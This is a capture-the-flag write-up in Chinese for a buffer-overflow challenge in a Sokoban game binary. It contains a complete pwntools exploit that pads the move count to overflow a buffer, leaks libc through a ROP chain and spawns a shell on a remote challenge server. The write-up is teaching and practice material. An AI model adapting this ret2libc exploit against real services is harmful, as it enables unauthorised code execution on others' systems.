 # 推箱子

> 小明写了一个推箱子小游戏，但有一点小问题。

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |no    |
|libc  |2.27-3ubuntu1.6|

## 解题思路

简单的推箱子游戏，要求把箱子推到指定位置，完成后可以输入数据。
输入的长度的执行步骤的次数，可以通过 sw 这样的无效动作来刷高次数，从而引发缓冲区溢出，
打常规rop即可。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './game'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('222.67.132.186', 21956)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.27-3ubuntu1.6_amd64/libc.so.6')
    elf = ELF(EXE)

    def genKey(leng:int) -> bytes:
        key = 'ddwwwwssdwwssassdwwwsssdww' # a right path to push boxes
        extend = key[:-2] + 'sw' * ((leng - len(key)) // 2) + key[-1]
        return extend.encode()

    gadgets = ROP(elf)
    ret = gadgets.ret.address
    rdi = gadgets.rdi.address
    sh.sendafter(b'move', genKey(0x5a0))
    sh.sendafter(b'name:', b'0'*0x578 + p64(rdi) + p64(elf.got['puts']) +
                 p64(elf.plt['puts']) + p64(elf.symbols['main']))

    putsLibc = u64(sh.recvline()[:6] + b'\0\0')
    libc.address = putsLibc - libc.symbols['puts']
    success(GOLD_TEXT(f'Leak libcBase: {libc.address:#x}'))

    sh.sendafter(b'move', genKey(0x5a0))
    sh.sendafter(b'name:', b'0'*0x578 + p64(rdi) + p64(next(libc.search(b'/bin/sh'))) +
                 p64(ret) + p64(libc.symbols['system']))

    sh.clean()
    sh.interactive()
```
